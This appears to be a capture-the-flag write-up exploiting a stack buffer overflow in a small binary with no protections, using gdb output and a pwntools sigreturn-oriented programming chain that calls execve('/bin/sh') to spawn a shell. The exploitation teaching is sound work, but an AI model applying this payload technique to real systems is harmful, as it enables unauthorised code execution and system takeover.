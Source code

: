 # Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
Arch:       amd64
RELRO:      No RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x42000)
Stack:      Executable
RWX:        Has RWX segments
Stripped:   No
```

As we can see, we can do something there!

The program has no interface, so we head into the disassembly right away.

### Disassembly

Starting with `_start()`:

![image](https://github.com/user-attachments/assets/38bc394c-4df5-4510-98a1-821a9ac64cb2)

![image](https://github.com/user-attachments/assets/f1b71c35-c417-4886-8d7d-c9c2c2ab5d9a)

That's the whole binary, we see there is a huge buffer overflow that `rdx` reads up to `0x106 = 262` bytes. First of all, we need to find a possible gadget and `/bin/sh` address.

```gdb 
pwndbg> find 0x43000, 0x43900, "/bin/sh"
0x43238
1 pattern found.
pwndbg> x/s 0x43238
0x43238:  "/bin/sh"
```

Now that we have this, we can craft the `SROP` chain.
We want to execute system("/bin/sh") but in assembly language it is execve("/bin/sh", argument, env ) function.
```python
# Srop
frame     = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = binsh           # pointer to /bin/sh
frame.rsi = 0x0             # NULL - second argument
frame.rdx = 0x0             # NULL - third argument
frame.rip = rop.syscall[0]  # the next command execute
```

After crafting the `frame`, we send the payload to trigger the vulnerability and get shell.

```python
pl  = b'deadbeef'
pl += p64(rop.rax[0])
pl += p64(0xf)
pl += p64(rop.syscall[0])
pl += bytes(frame)
```

Running solver remotely at IP port

### Result


![image](https://github.com/user-attachments/assets/1cfc6b67-e5b1-42c0-8116-027ec9c7467d)


